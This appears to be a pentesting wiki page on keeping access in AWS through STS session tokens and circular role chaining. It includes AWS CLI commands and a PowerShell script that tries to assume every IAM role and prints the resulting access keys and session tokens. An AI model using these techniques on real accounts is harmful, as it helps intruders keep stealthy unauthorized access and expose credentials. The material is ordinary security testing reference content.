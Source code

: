 # AWS - STS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## STS

For more information access:

{{#ref}}
../aws-services/aws-sts-enum.md
{{#endref}}

### Assume role token

Temporary tokens cannot be listed, so maintaining an active temporary token is a way to maintain persistence.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# With MFA
aws sts get-session-token \
    --serial-number &#x3C;mfa-device-name> \
    --token-code &#x3C;code-from-token>

# Hardware device name is usually the number from the back of the device, such as GAHT12345678
<strong># SMS device name is the ARN in AWS, such as arn:aws:iam::123456789012:sms-mfa/username
</strong># Vritual device name is the ARN in AWS, such as arn:aws:iam::123456789012:mfa/username
</code></pre>

### Role Chain Juggling

[**Role chaining is an acknowledged AWS feature**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_terms-and-concepts.html#Role%20chaining), often utilized for maintaining stealth persistence. It involves the ability to **assume a role which then assumes another**, potentially reverting to the initial role in a **cyclical manner**. Each time a role is assumed, the credentials' expiration field is refreshed. Consequently, if two roles are configured to mutually assume each other, this setup allows for the perpetual renewal of credentials.

You can use this [**tool**](https://github.com/hotnops/AWSRoleJuggler/) to keep the role chaining going:

```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
  -h, --help            show this help message and exit
  -r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```

> [!CAUTION]
> Note that the [find_circular_trust.py](https://github.com/hotnops/AWSRoleJuggler/blob/master/find_circular_trust.py) script from that Github repository doesn't find all the ways a role chain can be configured.

<details>

<summary>Code to perform Role Juggling from PowerShell</summary>

```powershell
# PowerShell script to check for role juggling possibilities using AWS CLI

# Check for AWS CLI installation
if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) {
    Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'."
    exit
}

# Function to list IAM roles
function List-IAMRoles {
    aws iam list-roles --query "Roles[*].{RoleName:RoleName, Arn:Arn}" --output json
}

# Initialize error count
$errorCount = 0

# List all roles
$roles = List-IAMRoles | ConvertFrom-Json

# Attempt to assume each role
foreach ($role in $roles) {
    $sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
    try {
        $credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
        if ($credentials) {
            Write-Host "Successfully assumed role: $($role.RoleName)"
            Write-Host "Access Key: $($credentials.AccessKeyId)"
            Write-Host "Secret Access Key: $($credentials.SecretAccessKey)"
            Write-Host "Session Token: $($credentials.SessionToken)"
            Write-Host "Expiration: $($credentials.Expiration)"

            # Set temporary credentials to assume the next role
            $env:AWS_ACCESS_KEY_ID = $credentials.AccessKeyId
            $env:AWS_SECRET_ACCESS_KEY = $credentials.SecretAccessKey
            $env:AWS_SESSION_TOKEN = $credentials.SessionToken

            # Try to assume another role using the temporary credentials
            foreach ($nextRole in $roles) {
                if ($nextRole.Arn -ne $role.Arn) {
                    $nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
                    try {
                        $nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
                        if ($nextCredentials) {
                            Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)"
                            Write-Host "Access Key: $($nextCredentials.AccessKeyId)"
                            Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)"
                            Write-Host "Session Token: $($nextCredentials.SessionToken)"
                            Write-Host "Expiration: $($nextCredentials.Expiration)"
                        }
                    } catch {
                        $errorCount++
                    }
                }
            }

            # Reset environment variables
            Remove-Item Env:\AWS_ACCESS_KEY_ID
            Remove-Item Env:\AWS_SECRET_ACCESS_KEY
            Remove-Item Env:\AWS_SESSION_TOKEN
        } else {
            $errorCount++
        }
    } catch {
        $errorCount++
    }
}

# Output the number of errors if any
if ($errorCount -gt 0) {
    Write-Host "$errorCount error(s) occurred during role assumption attempts."
} else {
    Write-Host "No errors occurred. All roles checked successfully."
}

Write-Host "Role juggling check complete."
```

</details>

{{#include ../../../banners/hacktricks-training.md}}





